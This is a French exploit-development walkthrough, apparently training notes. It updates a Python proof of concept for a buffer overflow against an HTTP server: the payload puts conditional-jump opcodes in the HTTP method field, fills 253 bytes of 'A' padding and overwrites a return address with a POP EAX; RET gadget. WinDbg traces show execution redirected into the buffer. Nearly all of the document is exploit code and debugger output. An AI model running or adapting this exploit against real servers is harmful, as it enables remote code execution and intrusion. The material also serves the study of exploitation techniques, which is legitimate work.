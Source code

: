 Mise à jour de la preuve de concept :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # XOR ECX ECX; TEST ECX ECX; JE 0x17
  inputBuffer = b"\x41" * size
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET
  httpEndRequest = b"\r\n\r\n"

  buf = httpMethod + inputBuffer +  httpEndRequest

  print("Sending buffer...")
```

Exécution de la preuve de concept et positionnement d'un point d'arrêt sur l'adresse où se trouve la série d'instructions `POP EAX;RET` :

```powershell
0:009> bp 0x00418674
#
0:009> g
Breakpoint 0 hit
eax=00000000
00418674 58              pop     eax
#
0:004> t
eax=022ffe70
00418675 c3              ret
#
0:004> u poi(@esp) L3
022fea84 31c9            xor     ecx,ecx
022fea86 85c9            test    ecx,ecx
022fea88 0f8411000000    je      022fea9f
```

- On affiche le registre `ZF` juste apres le `XOR` et le `TEST`
    * Le registre est bien a `1`
- On execute l'instruction de saut conditionnel `JE`
- On voit que `EIP` est bien initialise a `022fea9f`
    * Le flot d'execution est bien redirige suite au `je`
- `EIP` pointe bien sur le buffer de `0x41`

```powershell
0:004> t
[...]
022fea84 31c9            xor     ecx,ecx
#
0:004> t
[...]
022fea86 85c9            test    ecx,ecx
#
0:004> r @zf
zf=1
#
0:004> dd 022fea9f - 4
022fea9b  41412f00 41414141 41414141 41414141
022feaab  41414141 41414141 41414141 41414141
[...]
```